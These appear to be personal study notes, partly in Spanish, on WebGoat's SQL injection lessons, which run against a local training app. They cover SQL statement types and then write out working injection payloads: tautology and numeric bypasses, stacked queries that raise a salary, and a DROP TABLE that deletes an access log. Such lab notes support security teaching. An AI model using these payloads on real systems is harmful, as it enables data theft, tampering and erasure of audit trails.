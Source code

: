 # URL para ingresar a webgoat
+ http://localhost:8080/WebGoat/

# A1 Injection

La sección A1 de webgoat se refiere a las inyecciones SQL que son utilizadas para hacer que la aplicación se comporte de una manera no prevista por el desarrollador.

## SQL Injection (Intro)

### Ejercicio 1

El ejercicio número uno nos plantea una base de datos 


## SQL Injection (Advanced)

## SQL Injection (Mitigation)


# SQL => Structure Query Language
Modifica los datos
``` sql
SELECT department FROM Employees WHERE userid = '96134';
```

# DML => Data Manipulation Language
```sql
SELECT, INSERT, UPDATE, DELETE...

UPDATE Employees SET department = 'Sales' WHERE first_name = 'Tobi ';
```

# Data Definition Language (DDL)
+ If an attacker uses SQL injection of the DDL type to manipulate your database, he will violate the following of the three protection goals in information security: 
	+ integrity (alter) 
	+ availability (drop). 
	+ (Only people authorized to change/delete the data can do so.)

DDL commands are used for creating, modifying, and dropping the structure of database objects.

+ `CREATE` - to create a database and its objects like (table, views, ���)
+ `ALTER` - alters the structure of the existing database
+ `DROP` - delete objects from the database
Example:
``` sql
CREATE TABLE employees(
	userid varchar(6) not null primary key,
	first_name varchar(20),
	last_name varchar(20),
	department varchar(20),
	salary varchar(10),
	auth_tan varchar(6)
);
```

Now try to modify the scheme by adding the column "phone" (varchar(20)) to the table "employees". :
```sql
ALTER TABLE employees ADD COLUMN phone varchar(20);
```

# Data Control Language (DCL)

Data control language is used to create privileges to allow users to access and manipulate the database.

If an attacker uses SQL injection of the DCL type to manipulate your database, he will violate the following of the three protection goals in information security: 
+ confidentiality (grant) 
+ availability (revoke) 
+ (Unwanted people could grand themselves admin privileges or revoke the admin rights from an administrator)

DCL commands are used for providing security to database objects.
+ GRANT - allow users access privileges to the database
+ REVOKE - withdraw users access privileges given by using the GRANT command

Example:
```sql
GRANT CREATE TABLE
TO operator;
```
This statement gives all users of the `operator-role` the privilege to create new tables in the database.

Try to grant the usergroup "UnauthorizedUser" the right to alter tables:
```sql
GRANT ALTER TABLE TO UnauthorizedUser;
```



The query in the code builds a dynamic query as seen in the previous example. The query is build by concatenating strings making it susceptible to String SQL injection:

```sql
"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName  + "'";
"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + VARIABLE  + "'";
-- Una vez cambiado VARIABLE por (' OR '1' ='1)
"SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + ' OR '1' ='1  + "'";

SELECT * FROM user_data WHERE first_name = 'John' and last_name = '' or '1' = '1'
```

Try It! Numeric SQL injection

The query in the code builds a dynamic query as seen in the previous example. The query in the code builds a dynamic query by concatenating a number making it susceptible to Numeric SQL injection:

```sql
"SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = "  + User_ID;
```
+ Using the two Input Fields below, try to retrieve all the data from the users table.
	+ Warning: Only one of these fields is susceptible to SQL Injection. You need to find out which, to successfully retrieve all the data.

```sql
"SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = "  + User_ID;
SELECT * From user_data WHERE Login_Count = 0 and userid= 1 OR TRUE
```

# Compromising confidentiality with String SQL injection

If queries are built dynamically in the application by concatenating strings to it, this makes it very susceptible to String SQL injection.

It is your turn!

You are an employee named John Smith working for a big company. The company has an internal system that allows all employees to see their own internal data - like the department they work in and their salary.

The system requires the employees to use a unique authentication TAN to view their data.
Your current TAN is 3SL99A.

Since you always have the urge to be the most earning employee, you want to exploit the system and instead of viewing your own internal data, _ you want to take a look at the data of all your colleagues_ to check their current salaries.

Use the form below and try to retrieve all employee data from the employees table. You should not need to know any specific names or TANs to get the information you need.
You already found out that the query performing your request looks like this:

```sql
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';
```

```sql
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';
```

You just found out that Tobi and Bob both seem to earn more money than you! Of course you cannot leave it at that.
Better go and change your own salary so you are earning the most!

Remember: Your name is John Smith and your current TAN is 3SL99A.

```sql
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';
```
name => John
auth_tan => 3SL99A; UPDATE  employees SET SALARY = 90000 WHERE USERID = '37648
auth_tan => 3SL99A'; UPDATE  employees SET SALARY = 90000 WHERE auth_tan = '3SL99A

123'; UPDATE employees SET salary = 100000 WHERE auth_tan = '3SL99A


Now you are the top earner in your company. But do you see that? There seems to be a access_log table, where all your actions have been logged to!
Better go and delete it completely before anyone notices

```sql
';DROP TABLE access_log;--
```